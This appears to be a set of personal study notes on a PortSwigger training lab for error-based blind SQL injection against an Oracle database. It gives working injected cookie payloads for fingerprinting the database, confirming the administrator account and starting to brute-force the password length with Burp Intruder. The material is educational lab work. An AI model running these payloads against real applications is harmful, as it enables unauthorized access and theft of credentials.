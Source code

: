 ## Error-based SQL injection
- where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.
- The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger.

### Exploiting blind SQL injection by triggering conditional errors
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.
- This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false

- To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
```
- These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true.
- With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. 
- Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

- Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Steps to solve Lab-1
### Desc - Blind SQL injection with conditional errors
### Pre-requisite - [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
**Below is how the backend query looks like when it checks the user is known or not known** ->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8'
```

**Note** - If the SQL query causes an error, then the application returns a custom error message.

**Checking the above note by putting single quote**
![[blind_SQL_injection_conditional_errors3.png]]
From above we can clearly say that it is vulnerable to sql injection.

2. Now, we need to check the version of the database used:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '') || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors1.png]]
- We need to use "FROM" keyword along with the oracle built-in table which is "dual".

query - 
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM dual) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors2.png]]
**Result** - Database is oracle.

3. Now, we are going to confirm that the **users** table exist in the database.
query -
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors4.png]]
**Reason** - The **users** table might be have more than one entry, which just break our query. that's why we need to define that to output only one row from **users** table.

query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users WHERE rownum=1) || '
```

Below performing on burp again:
![[blind_SQL_injection_conditional_errors5.png]]
**Result** - `users` does exist in database.

4. Now, we are going to confirm that **administrator** user exist in the database.
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT '' FROM users WHERE username=administrator) || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors6.png]]
However, this wouldn't really tell you that **administrator** user exist.
**Reason** - When you search for any other and that user doesn't even exist then this query doesn't even run the **SELECT** statement code and give **200** status code.
![[blind_SQL_injection_conditional_errors7.png]]
user - a23strasdfator but the resulted status code is **200**.

**We need to check the existence of administrator user on the basis of  generating error messages**
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```
**Explaination to above query**
The **FROM** clause evaluates first and then **SELECT** clause evaluate. So, the **FROM** clause is wrong(doesn't give you any result) then **SELECT** clause doesn't even evaluates.
**For the above query** - If the `administrator` user exist then **SELECT** clause run otherwise it doesn't even run.

##### Checking the existence of administrator user with the above query
query - 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```

Below performing on burp:
![[blind_SQL_injection_conditional_errors8.png]]
Now, we need to make sure that the **SELECT** clause is running or not by just changing **(1=1)** to **(1=0)**. So that we can get **200** status code
![[blind_SQL_injection_conditional_errors9.png]]
**Result** - administrator user is exist in the database.

**Let's with the user that doesn't exist**
![[blind_SQL_injection_conditional_errors10.png]]
**Reason** - We get **200** status code because **SELECT** doesn't even evaluates and also the reason is because this **asdf23XXX** doesn't even exist in the database.

5. Now, we are going to determine the length of the password.
query -
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and LENGTH(password)>1) || '
```
We are going to perform the above step on intruder because it help us to perform brute force.

Below on performing burp:
1. Checking the length of password on **Repeater**:
![[blind_SQL_injection_conditional_errors11.png]]
**Reason for 200 status code** - **SELECT** clause doesn't even run because **FROM** clause is wrong.

2. Sending the query to intruder:
![[blind_SQL_injection_conditional_errors12.png]]

3. Seting up the positions in the position section of intruder
![[blind_SQL_injection_conditional_errors13.png]]

4. Setting up the payload. 
![[blind_SQL_injection_conditional_errors14.png]]